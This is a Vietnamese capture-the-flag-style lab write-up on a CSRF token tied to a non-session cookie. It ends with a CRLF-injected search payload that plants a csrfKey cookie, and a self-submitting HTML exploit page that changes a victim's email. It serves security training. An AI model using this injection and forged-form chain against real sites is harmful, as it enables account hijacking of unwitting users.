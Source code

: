 # **5. Lab: CSRF where token is tied to non-session cookie**
>Chức năng thay đổi email của lab này dễ bị tấn công bởi CSRF. Nó sử dụng CSRF Token để cố gắng ngăn chặn các cuộc tấn công CSRF nhưng chúng không được tích hợp hoàn toàn vào hệ thống xử lý phiên của trang web.
Để giải quyết bài lab, hãy sử dụng máy chủ khai thác của bạn để lưu trữ trang HTML sử dụng cuộc tấn công CSRF để thay đổi địa chỉ email của người xem.
Bạn có hai tài khoản trên ứng dụng mà bạn có thể sử dụng để giúp thiết kế cuộc tấn công của mình. Thông tin xác thực như sau: `wiener:peter` và `carlos:montoya`
![image](https://hackmd.io/_uploads/r1NiHiKX0.png)

>Thực hiện đăng nhập với user `wiener` và update email. Có thể thấy, ứng dụng web sử dụng một cookie `csrfKey` khác session để liên kết với `csrf` token. 
>![image](https://hackmd.io/_uploads/HJaHy7_SR.png)

>Nếu thay đổi `crsfKey`, server sẽ báo `Invalid CSRF token`.
>![image](https://hackmd.io/_uploads/ByD21mdBA.png)

>Lúc này, đăng nhập vào `carlos`, rồi vẫn dùng cặp `<csrfKey, csrf>` cũ của `peter`, thay giá trị của session tương ứng với `carlos` và Send, thì server vẫn phản hồi thành công và đổi email thành `ducanh123@gmail.com`: 
>![image](https://hackmd.io/_uploads/Syvpx7uS0.png)
>![image](https://hackmd.io/_uploads/ByckZXOHC.png)

>Như vậy, csrf token không được liên kết vào session của từng user mà chỉ dựa vào `csrfKey`. Mục tiêu bây giờ của mình là làm sao thay đổi được `csrfKey` của nạn nhân.

>Ngoài ra, trong trang chủ còn có chức năng tìm kiếm: ![image](https://hackmd.io/_uploads/BySWz7dSC.png)

>Thử gõ "abc" và tìm kiếm: ![image](https://hackmd.io/_uploads/HkgQM7uSC.png)

>Xem lại respone trả về,thấy chuỗi được search sẽ lưu vào cookie có tên `LastSearchTerm`:
>![image](https://hackmd.io/_uploads/Hy_rzm_SR.png)

>Dựa vào đó, ta sẽ search với payload sau để chèn `csrfKey` cookie vào trong **SetCookie**:

```
abc;+csrfKey=5haog3i8cE7shcnibSuHfiBinpaqRs8t
```

>Thực hiện encode payload trên và search &rarr; ta đã set cookie `csrfKey` thành công theo ý muốn (ở đây là `csrfKey` của user `wiener` ở trên)
![image](https://hackmd.io/_uploads/HkUGHQ_rA.png)

>Bây giờ ta chỉ việc tạo form để thực hiện 2 bước:
>- Inject `csrfKey` cookie: Sử dụng tag `<img>`
>- Form update email với `csrf` là giá trị `csrf` của user `wiener` ở trên.

```htmlembedded
<html>
  <body>
      <img src="https://<LAB-DOMAIN>/?search=abc%0d%0aSet-Cookie%3a%20csrfKey=5haog3i8cE7shcnibSuHfiBinpaqRs8t" onerror= 'document.forms[0].submit();'>
      <form action="https://<LAB-DOMAIN>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;csrf&#46;com" />
        <input type="hidden" name="csrf" value="mHsLiCDnWeDQAJ3VzmGysNUnz7ptTrkd" />
    </form>
  </body>
</html>
```
